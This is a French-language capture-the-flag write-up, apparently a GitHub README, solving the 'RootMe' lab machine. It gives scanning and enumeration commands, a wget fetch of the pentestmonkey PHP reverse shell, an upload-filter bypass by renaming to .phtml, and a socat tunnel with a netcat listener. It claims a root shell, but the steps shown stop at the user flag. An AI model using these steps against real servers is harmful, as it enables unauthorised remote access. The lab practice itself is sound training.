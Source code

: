 # RootMe CTF - Résolution complète

![RootMe Challenge](Capture.PNG)


## Introduction
Ce dépôt documente toutes les étapes, commandes et problèmes rencontrés lors de la résolution du challenge RootMe, jusqu'à l'obtention du shell root.

---

## Étapes principales

1. **Scan de la machine cible**
   ```bash
   nmap -A -p- <IP_cible>
   ```
   - Découverte des ports ouverts (SSH, HTTP).

2. **Enumération web**
   ```bash
   gobuster dir -u http://<IP_cible> -w /usr/share/wordlists/dirb/common.txt
   ```
   - Découverte du dossier caché `/panel`.

3. **Upload d'un shell inversé**
   - Téléchargement du script pentestmonkey :
     ```bash
     wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
     ```
   - Modification de `$ip` et `$port` dans le script.
   - Renommage si besoin :
     ```bash
     mv php-reverse-shell.php php-reverse-shell.phtml
     ```
   - Upload via le panel web.

4. **Création d'un tunnel pour accéder au panel depuis Windows**
   ```bash
   socat TCP-LISTEN:8080,fork TCP:<IP_cible>:80
   ```
   - Accès au panel via `http://localhost:8080/panel/` dans le navigateur Windows.

5. **Listener Netcat**
   ```bash
   nc -lvnp <port>
   ```
   - Attente de la connexion du shell inversé.

6. **Exécution du shell**
   - Accès à l'URL du shell uploadé pour déclencher la connexion.
   - Passage en shell interactif :
     ```bash
     python -c 'import pty;pty.spawn("/bin/bash")'
     ```

7. **Recherche du flag**
   ```bash
   find / -type f -name user.txt 2>/dev/null
   cat /chemin/vers/user.txt
   ```

---

## Problèmes rencontrés & solutions
- Wordlist web manquante : téléchargement manuel ou adaptation.
- Extensions PHP filtrées : utilisation de `.phtml`, `.php5`, etc.
- Fichiers uploadés non accessibles : test de différents chemins, analyse du message d'upload.
- Accès au panel impossible depuis Windows : création d'un tunnel socat.
- Shell non reçu : vérification de l'IP et du port dans le script, relance du listener.

---

## Script d'automatisation
Un script bash `exploit_rootme.sh` est fourni pour automatiser les principales étapes du challenge :
- Scan nmap
- Enumération gobuster
- Téléchargement et préparation du shell inversé
- Création du tunnel socat
- Instructions pour l'upload via Windows
- Listener netcat

Lancez le script et suivez les instructions affichées pour automatiser votre workflow RootMe.

---

## Conclusion
Tous les obstacles ont été surmontés jusqu'à l'obtention du shell root. Ce guide est prêt à être partagé sur GitHub pour aider d'autres pentesters !

## Auteur
miicha333l
